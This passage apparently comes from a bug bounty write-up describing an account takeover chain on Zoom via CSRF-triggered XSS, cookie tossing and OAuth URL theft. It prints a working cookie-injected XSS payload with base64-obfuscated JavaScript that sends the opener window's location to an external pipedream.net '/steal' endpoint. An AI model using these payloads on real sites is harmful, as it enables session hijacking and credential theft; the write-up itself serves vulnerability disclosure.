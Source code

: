 When this method is called, it opens a new window to submit the CSRF (Post-based XSS) form which triggers the XSS in `redacted.zoom.us`, let’s call this window winA. After an interval of 3 sec, the current window - let’s call it winB - will redirect to the OAuth URL which we fetched from the `Location` header server side. This URL, which is passed to `window.location` in the code, is updated dynamically.

![](attachments/zoom-ato-client-side-poc.png)
This payload is executed in the context of `redacted.zoom.us` in winA

```html title:"XSS payload tossing the cookie"
<script>
    document.cookie=`_zm_csp_script_nonce=&#x22;test\\&#x22;' 'nonce-test' 'unsafe-eval' >eval(atob('c2V0VGltZW91dCgoKT0+e2ZldGNoKCdodHRwczovL2VuMmNlbHI3cmV3YnVsLm0ucGlwZWRyZWFtLm5ldC9zdGVhbD9xPScrZXNjYXBlKHdpbmRvdy5vcGVuZXIuZG9jdW1lbnQubG9jYXRpb24pKTthbGVydCh3aW5kb3cub3BlbmVyLmRvY3VtZW50LmxvY2F0aW9uKX0sMTAwMDAp'))// \&#x22;;path=/webinar;domain=.zoom.us;`; 
    location=`https://zoom.us/webinar/register`
</script>
```

It sets the cookie `_zm_csp_script_nonce` for the domain `.zoom.us` with an XSS payload in it. We also added the path attribute for the cookie so that in case there exists a cookie already with the same name, our cookie will be prioritized due to the path attribute being more specific. After setting the XSS cookie we are redirecting the user to `https://zoom.us/webinar/register` endpoint which eventually reflects the malicious cookie set by us (any other endpoint can also be used here).

Due to the redirect, winA is now on `http://zoom.us/webinar/register` instead of `http://redacted.zoom.us`.

```js title:"Base64 decoded payload"
setTimeout(() => {
    fetch('https://en2celr7rewbul.m.pipedream.net/steal?q='+escape(window.opener.document.location));
    alert(window.opener.document.location)
},7000)
```
